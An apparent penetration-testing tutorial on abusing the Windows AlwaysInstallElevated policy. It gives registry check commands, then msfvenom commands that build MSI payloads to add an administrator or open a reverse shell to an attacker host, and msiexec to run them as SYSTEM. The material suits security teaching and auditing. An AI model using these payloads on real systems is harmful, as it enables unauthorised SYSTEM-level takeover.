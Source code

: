 # Always Install Elevated

In Windows, there is a policy that forces Microsoft installer packages (`.msi`) to always install with maximum privileges. If this policy is enabled, an attacker can perform privileged installations by using a file containing malicious code to escalate privileges.

### Verification

To check if this policy is enabled, verify that the registry key is set to 1 using the following commands:

```powershell
if ((Get-ItemProperty HKCU:\SOFTWARE\Policies\Microsoft\Windows\Installer -ErrorAction SilentlyContinue).AlwaysInstallElevated -eq 1) {
    echo "VULNERABLE!"
}

if ((Get-ItemProperty HKLM:\SOFTWARE\Policies\Microsoft\Windows\Installer -ErrorAction SilentlyContinue).AlwaysInstallElevated -eq 1) {
    echo "VULNERABLE!"
}
```

You can also manually check with CMD:

```batch
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Attack

If the registry key is set to 1, the policy is active and the system is vulnerable. An attacker can create a malicious `.msi` package. One straightforward method is to use `msfvenom` from Metasploit to either add your user to the Administrators group or open a high-integrity reverse shell.

```bash
# Create a new administrative user
msfvenom -p windows/exec CMD="net localgroup administrators [user] /add" -f msi -o toadmin.msi

# Create a reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=[IP] LPORT=4444 -f msi -o rev.msi
```

Finally, execute the malicious package with:

```powershell
msiexec /i rev.msi
```

## Example

First, copy and paste the script below to check the registry key for the policy.

![](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/others/always_1.png)

The output indicates the system is vulnerable. Next, create a `.msi` package with a reverse shell:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=[IP] LPORT=4444 -f msi -o rev.msi
```

Finally, initiate the installation of the package, which will run as SYSTEM.

![](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/others/always_2.png)

Within a few seconds, the reverse shell connects, executing as SYSTEM.

![](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/others/always_3.png)
